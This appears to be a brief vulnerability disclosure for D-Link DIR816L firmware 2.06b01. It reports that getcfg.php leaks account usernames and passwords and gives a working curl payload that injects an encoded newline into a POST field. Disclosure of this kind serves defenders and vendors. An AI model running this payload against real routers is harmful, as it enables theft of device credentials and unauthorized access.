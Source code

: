 Sensitive Information Leak

Dir816L firmware version:DIR816L_FW206b01.bin

Description:

DIR816L_FW206b01 getcfg.php has an issue that attackers can use it to get sensitive information such as username and password by setting query string "DEVICE.ACCOUNT". 


you may download it from : https://tsd.dlink.com.tw/ddgo
![](./img/0.png)


payload:
```
curl http://192.168.0.1:80/getcfg.php -d "SERVICES=DEVICE.ACCOUNT%0aAUTHORIZED_GROUP=1"
```

![](./img/3.png)